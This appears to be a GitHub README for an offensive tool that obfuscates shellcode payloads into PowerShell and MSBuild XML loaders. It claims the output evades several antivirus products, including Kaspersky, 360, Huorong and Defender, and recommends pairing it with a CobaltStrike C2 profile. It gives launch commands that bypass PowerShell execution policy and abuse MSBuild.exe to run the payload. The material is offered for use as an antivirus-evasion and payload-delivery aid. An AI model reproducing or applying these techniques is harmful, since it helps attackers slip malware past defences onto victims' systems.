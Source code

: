 # Simple ShellCode Obfuscation Script

```
🐨 ››› python ssos.py

      ░░░░▐▐░░░  .dMMMb  .dMMMb  .aMMMb  .dMMMb
 ▐  ░░░░░▄██▄▄  dMP" VP dMP" VP dMP"dMP dMP" VP
  ▀▀██████▀░░   VMMMb   VMMMb  dMP dMP  VMMMb
  ░░▐▐░░▐▐░░  dP .dMP dP .dMP dMP.aMP dP .dMP
 ▒▒▒▐▐▒▒▐▐▒   VMMMP"  VMMMP"  VMMMP"  VMMMP"

 Simple ShellCode Obfuscation Script v1.0
 https://github.com/inspiringz/python-toys @3ND

[+] Usage: python sscs.py payload.py output_filename
   - For ps1: powershell -ExecutionPolicy bypass -File exploit.ps1
   - For xml: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe exploit.xml

[+] Been Test On: <2021/07/15>
   - 火绒（版本 5.0.62.3 / 病毒库 2021-07-12）-> ps1, xml works well
   - 360（版本 13.1.0.1002 / 备用木马库 2021-07-15）-> ps1, xml works well
   - 卡巴斯基（版本 21.3.10.391b）-> ps1, xml works well
   - Defender (客户端版本: 4.18.2106.6 / 引擎版本: 1.1.18300.4 / 防病毒软件版本: 1.343.1035.0) -> ps1, xml works

[+] Suggest: Use Malleable C2 Profile For CobaltStrike
```

## Usage

Step 1:

![](images/16263526414680.jpg)

![](images/16263526638086.jpg)

![](images/16263526763907.jpg)


Step 2:


```
❯ python sscs.py payload.py exploit

      ░░░░▐▐░░░  .dMMMb  .dMMMb  .aMMMb  .dMMMb
 ▐  ░░░░░▄██▄▄  dMP" VP dMP" VP dMP"VMP dMP" VP
  ▀▀██████▀░░  VMMMb   VMMMb  dMP      VMMMb
  ░░▐▐░░▐▐░░  dP .dMP dP .dMP dMP.aMP dP .dMP
 ▒▒▒▐▐▒▒▐▐▒   VMMMP"  VMMMP"  VMMMP"  VMMMP"

 Simple ShellCode Confuse Script v1.0 By 3ND


[+] >>>> Powershell Script Generated to exploit.ps1
[+] Usage: powershell -ExecutionPolicy bypass -File exploit.ps1

[+] >>>> Xml Script Generated to exploit.xml
[+] Usage: C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe exploit.xml
```

![](images/shelp.png)


Step 3:

ps1:

```bash
powershell -ExecutionPolicy bypass -File exploit.ps1
```

![](images/ps1.png)

![](images/ps1x.png)


or xml:

```bash
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\MSBuild.exe exploit.xml
```

![](images/ka.png)


![](images/xml.png)